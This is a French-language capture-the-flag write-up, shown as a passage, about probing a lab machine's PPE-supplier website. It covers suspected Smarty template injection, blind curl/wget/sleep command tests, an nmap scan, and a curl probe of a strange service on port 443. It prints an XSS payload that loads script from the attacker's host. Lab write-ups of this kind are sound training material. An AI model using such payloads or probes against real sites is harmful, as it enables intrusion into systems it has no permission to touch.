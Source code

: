 Intéressant, le site semble utiliser le moteur de templates *Smarty*. Est-ce que l'on serait en présence d'une vulnérabilité de type SSTI (Server Side Template Injection) ?  

En fouillant pour les CVE liés à ce software je suis tombé au bout d'un moment sur [un article décrivant plusieurs cas d'exploitation](https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html) mais rien n'a aboutit.  

J'ai bien sûr aussi testé [la syntaxe de base du moteur de template](https://www.smarty.net/docs/en/language.syntax.variables.tpl).  

A noter que la soumission du formulaire ne provoque aucun output particulier, il a donc fallut tester avec des commandes telles que curl/wget/sleep pour voir si une exécution de commande avait bien lieu.  

Ce ne fut pas le cas.  

Here comes a new challenger
---------------------------

Bien sûr j'ai tenté aussi l'injection XSS avec un payload tel que   

```html
<script src="//192.168.56.1:8000/fname"></script>
```

Aucun retour ! Ah !  

Un nouveau scan de port fait cette fois apparaître un nouveau venu sur le port 443.  

```plain
22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:0a:3a:42:5f:92:47:69:33:59:b3:77:53:3c:be:73 (RSA)
|   256 ab:3d:26:3b:d9:02:50:a4:49:c0:bf:13:75:dc:a5:73 (ECDSA)
|_  256 fb:6a:7e:1b:05:f9:d1:ef:be:dd:ff:39:ed:f5:f5:63 (ED25519)
80/tcp   open   http       Apache httpd 2.4.37 ((centos))
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Your PPE Supplier
| http-methods: 
|_  Potentially risky methods: TRACE
443/tcp  open   http       Mongoose httpd
9090/tcp closed zeus-admin
```

Nmap y voit du [Mongoose](https://en.wikipedia.org/wiki/Mongoose_(web_server)) mais aucun entête ne permet de vérifier cette information. On obtient juste une réponse étrange :  

```plain
$ curl -D- http://192.168.56.116:443/
HTTP/1.1 404 Not Found
Cache: no-cache
Content-Length: 363
Content-Type: text/plain

Unknown Command - {"headers":{"Accept":"*/*","Host":"192.168.56.116:443","User-Agent":"curl/7.80.0"},"httpVersion":"1.1","method":"GET","url":"/","urlParsed":{"anchor":"","query":"","file":"","directory":"/","path":"/","relative":"/","port":"","host":"","password":"","user":"","userInfo":"","authority":"","protocol":"","source":"/","queryKey":{},"chunks":[""]}}
```
